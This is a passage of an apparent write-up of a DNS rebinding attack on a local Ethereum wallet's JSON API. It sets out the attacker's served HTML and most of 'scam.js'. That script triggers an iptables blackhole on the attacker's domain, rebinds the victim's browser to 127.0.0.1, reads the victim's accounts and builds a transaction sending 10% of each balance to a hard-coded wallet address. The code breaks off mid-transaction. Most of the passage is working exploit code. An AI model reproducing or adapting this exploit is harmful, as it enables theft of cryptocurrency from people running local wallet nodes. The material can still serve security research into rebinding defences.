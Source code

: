 ## The HTML
After redirecting the victim to our malicious domain we serve some very basic HTML.

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>taker</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/2.2.0/jquery.min.js"></script>
  </head>
  <body>
    <div id="logDiv"></div>
    <script src="scam.js"></script>
  </body>
</html>
```

## The JavaScript
This JavaScript we serve does a few things:

1. send a HTTP GET request to `http://eth.rhodey.org/goodbye`, triggering the *iptables* blackhole
2. retrieve a list of Ethereum accounts from the wallet's API
3. send `%10` of each account's balance to my Ethereum account

Between step 1 and 2 the victim's IP Address has been blackholed by *iptables* such that the browser receives a `TCP RST`, this causes the browser to move onto the next record for `eth.rhodey.org` which is `127.0.0.1`... rebind complete! Communication between JavaScript and the Ethereum JSON API is made possible by the Ethereum [web3.js](https://github.com/ethereum/wiki/wiki/JavaScript-API) library.

```javascript
var BigNumber    = require('big-number');
var DEST_ADDRESS = "0x3ffc132784c89a7edda93e3ad3d669ab6c013cfd";
var web3         = null;
var logHtml      = "";

function getHref() {
  var parts = window.location.href.split("/");
  return parts[0] + "//" + parts[2];
}

function log(msg) {
  var logDiv        = document.getElementById("logDiv");
      logHtml      += ("<br/>" + msg);
  logDiv.innerHTML  = logHtml;
}

function initW3() {
  log("initializing w3...");
  var Web3 = require('web3');
      web3 = new Web3();

  web3.setProvider(new web3.providers.HttpProvider(getHref()));
}

function takeEthFrom(address) {
  log("getting balance for account " + address + "...");
  var balanceWei = web3.eth.getBalance(address);
  var takeWei    = balanceWei.div(10);
  var txn        = {
    from  : address,
    to    : DEST_ADDRESS,
    value : takeWei
```
